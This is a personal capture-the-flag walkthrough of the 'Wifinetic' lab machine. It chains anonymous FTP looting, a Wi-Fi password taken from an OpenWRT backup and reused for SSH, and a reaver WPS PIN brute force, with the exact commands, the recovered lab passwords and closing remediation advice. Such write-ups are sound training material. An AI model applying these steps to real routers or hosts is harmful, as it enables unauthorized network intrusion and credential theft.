# Wifinetic Walkthrough - Personal Documentation

## Introduction / Synopsis

Wifinetic is a Linux machine that revolves around wireless networking, password reuse, and basic enumeration. This machine focuses on OpenWRT router infrastructure and Wi-Fi security. It starts with an exposed FTP service and ends with a successful WPS brute-force attack that ultimately grants root access. The walkthrough below is structured for clarity :) 

## Technical Walkthrough

### FTP Enumeration

I began by running a full port scan with Nmap:

```bash
nmap -sC -sV 10.129.229.211
```



This revealed three open ports: FTP (21), SSH (22), and DNS (53). A follow-up service/version scan confirmed that FTP had anonymous login enabled.

After connecting with:

```bash
ftp 10.129.229.211
```

I turned off prompting and downloaded all files:

```bash
prompt
mget *
```



Among the files retrieved were:
- ProjectGreatMigration.pdf
- ProjectOpenWRT.pdf
- MigrateOpenWrt.txt
- backup-OpenWrt-2023-07-26.tar



MigrateOpenWrt.txt file informing me the system has reaver installed which will come in handy later. 


### OpenWRT Backup Extraction

I created a folder and extracted the contents of the OpenWRT backup:

```bash
mkdir openwrt_backup
tar -xvf backup-OpenWrt-2023-07-26.tar -C openwrt_backup
```




Inside the extracted content were familiar OpenWRT directories including `/etc/`, `/config/`, and crucial files like `passwd`, `shadow`, and `wireless`.

### Username Discovery and Password Reuse

From `etc/passwd` and `etc/shadow`, I discovered a custom user named `netadmin`.



 While the shadow hashes didn’t crack easily, the `config/wireless` file disclosed a Wi-Fi password:

```
SSID: OpenWrt
Password: VeRyUniUqWiFIPasswrd1!
```



Using this password, I tried SSH access:

```bash
ssh netadmin@10.129.229.211
```



Success. I was in as `netadmin`.

Allowing me to obtain the user flag :)



## Privilege Escalation

Once inside, I began enumerating the network setup to identify a path to root. First, I checked active wireless services:

```bash
systemctl status wpa_supplicant
```


This confirmed that `wpa_supplicant` was active on `wlan1`, indicating it was acting as a Wi-Fi client.

### Interface Roles and Hostapd

To confirm which interface was acting as an AP, I checked:

```bash
systemctl status hostapd
```

This confirmed `hostapd` was running on `wlan0`. Verified modes with:

```bash
iwconfig
```

Results:
- `wlan0`: AP mode (master)
- `wlan1`: client mode (managed)
- `mon0`: monitor mode (for sniffing)
- `wlan2`: managed, inactive

Further inspection with `iw dev` showed:
- `wlan0` on `phy0`, AP
- `wlan1` as P2P client
- `wlan2` + `mon0` on `phy2`, perfect for monitoring


### Brute Forcing WPS PIN

I checked for available tools with:

```bash
getcap -r / 2>/dev/null
```

Found `reaver`. Perfect.

To identify the BSSID and channel, I used:

```bash
iw dev
```

```
BSSID: 02:00:00:00:00:00
Channel: 1
```

Launched the attack:

```bash
reaver -i mon0 -b 02:00:00:00:00:00 -vv -c 1
```



This revealed the WPA PSK:

```
WhatIsRealAnDWhAtIsNot51121!
```

## Root Access

Knowing the system had a pattern of password reuse, I attempted:

```bash
ssh root@10.129.229.211
```

Password: `WhatIsRealAnDWhAtIsNot51121!`



This was successful. I grabbed the final flag from:

```bash
cat /root/root.txt
```

## Defense & Remediation Advice

- Disable anonymous FTP access and apply proper file permissions.
- Set `ap_setup_locked=3` in hostapd to prevent WPS brute forcing.
- Avoid password reuse across Wi-Fi and SSH logins.
- Disable monitor-capable interfaces unless explicitly needed.
